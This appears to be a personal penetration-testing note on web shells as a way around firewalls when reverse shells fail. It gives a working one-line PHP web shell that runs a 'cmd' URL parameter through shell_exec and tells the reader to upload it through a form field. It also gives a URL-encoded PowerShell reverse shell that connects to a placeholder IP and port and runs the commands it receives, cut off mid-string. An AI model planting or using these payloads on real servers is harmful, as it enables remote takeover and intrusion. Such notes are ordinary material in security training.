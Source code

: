 ```yaml
---
tags:
  - Penetration-Testing
  - Shells
---
```

When reverse/bind shells are not possible through LFI/RFI, a good alternative is to upload code to execute a web shell. **Useful for firewall evasion**

Web Shells are a script that runs inside a web server (usually PHP or ASP) which executes code on the server. 
- Commands are entered into a web page -- either through an HTML form or directly as arguments in the URL
- Results are returned on web page

**Most generic, language specific reverse shells are written for Unix-based target & will NOT work on Windows**

**Variety of web shells included with Kali (/usr/share/webshells)**
## PHP Example
1. Upload shell code via input field or upload field
```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

- This will take a GET parameter in the URL and execute using shell_exec()

![[Pasted image 20240709144015.png]]

## Windows
**Easiest to obtain RCE using Web Shell or msfvenom**

Often uses URL-Encoded Powershell (would be used as cmd argument in URL)

```powershell
powershell%20-c%20%22%24client%20%3D%20New-Object%[20System.Net](http://20system.net/).Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCI
```

